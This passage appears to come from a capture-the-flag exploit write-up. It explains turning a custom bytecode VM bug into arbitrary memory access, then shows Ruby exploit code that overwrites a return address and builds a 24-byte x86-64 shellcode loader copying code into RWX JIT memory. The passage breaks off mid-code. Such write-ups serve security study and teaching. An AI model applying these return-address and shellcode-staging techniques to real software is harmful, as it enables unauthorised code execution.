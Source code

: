 <h2>Finishing up</h2>

Now that we can run arbitrary bytecode instructions, we can read, write, and execute any address. But there was one more problem: getting the code into the JIT memory.

It seems pretty straight forward, since we can write to arbitrary memory, but there's a problem: you don't have any absolute values in the assembly language, which means I can't directly write a bunch of values to memory. What I <em>could</em> do, however, is write values from registers to memory, and I can set the registers by passing in arguments.

BUT, reg0 gets messed up and two registers are wasted because I have to use them to overwrite the return address. That means I have 7 32-bit registers that I can use.

What you're probably thinking is that I can implement a multiplexer in their assembly language. I could have some operands like "write this dword to this memory address" and build up the shellcode by calling the function multiple times with multiple arguments.

If you're thinking that, then you're sharper than I was at 7am with no sleep! I decided that the best way was to write a shellcode loader in 24 bytes. I actually love writing short, custom-purpose shellcode, there's something satisfying about it. :)

Here's my loader shellcode:

<pre>
  <span class="Comment"># Create some loader shellcode. I'm not proud of this - it was 7am, and I hadn't</span>
  <span class="Comment"># slept yet. I immediately realized after getting some sleep that there was a</span>
  <span class="Comment"># way easier way to do this...</span>
  params =
    <span class="Comment"># param0 gets overwritten, just store crap there</span>
    <span class="Special">&quot;</span><span class="Special">\x41\x41\x41\x41</span><span class="Special">&quot;</span> +

    <span class="Comment"># param1 + param2 are the return address</span>
    [<span class="Identifier">@@rwx_addr</span> &amp; <span class="Constant">0x00000000FFFFFFFF</span>, <span class="Identifier">@@rwx_addr</span> &gt;&gt; <span class="Constant">32</span>].pack(<span class="Special">&quot;</span><span class="Constant">II</span><span class="Special">&quot;</span>) +

    <span class="Comment"># ** Now, we build up to 24 bytes of shellcode that'll load the actual shellcode</span>

    <span class="Comment"># Decrease ECX to a reasonable number (somewhere between 200 and 10000, doesn't matter)</span>
    <span class="Special">&quot;</span><span class="Special">\xC1\xE9\x10</span><span class="Special">&quot;</span> +  <span class="Comment"># shr ecx, 10</span>

    <span class="Comment"># This is where the shellcode is read from - to save a couple bytes (an absolute move is 10</span>
    <span class="Comment"># bytes long!), I use r12, which is in the same image and can be reached with a 4-byte add</span>
    <span class="Special">&quot;</span><span class="Special">\x49\x8D\xB4\x24\x88\x2B\x20\x00</span><span class="Special">&quot;</span> + <span class="Comment"># lea rsi,[r12+0x202b88]</span>

    <span class="Comment"># There is where the shellcode is copied to - immediately after this shellcode</span>
    <span class="Special">&quot;</span><span class="Special">\x48\xBF</span><span class="Special">&quot;</span> + [<span class="Identifier">@@rwx_addr</span> + <span class="Constant">24</span>].pack(<span class="Special">&quot;</span><span class="Constant">Q</span><span class="Special">&quot;</span>) + <span class="Comment"># mov rdi, @@rwx_addr + 24</span>
